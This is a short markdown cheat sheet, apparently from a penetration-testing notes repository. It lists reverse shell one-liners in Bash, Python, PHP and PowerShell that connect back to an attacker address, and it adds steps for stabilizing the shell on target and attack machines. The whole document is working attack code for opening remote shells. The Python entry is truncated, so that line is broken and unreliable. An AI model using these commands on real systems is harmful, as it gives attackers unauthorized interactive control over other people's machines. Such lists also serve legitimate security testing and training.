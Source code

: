 # Reverse Shells
1. [Reverse Shell Generator](https://www.revshells.com/)

2. Bash
    ```
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    ```
3. Python
    ```
    python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242)
    ```
4. PHP
    ```
    php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
5. Powershell
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP ADDRESS",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()    
    ```


# Reverse Shell Stabilization
1. Via Python
    ```
    (On Target Machine) python -c 'import pty; pty.spawn("/bin/bash")'
    (On Attack Machine) stty raw -echo; fg; reset
    ```
2. Via script
    ```
    (On Target Machine) /usr/bin/script -qc /bin/bash /dev/null
    (On Attack Machine) stty raw -echo; fg; reset
    ```
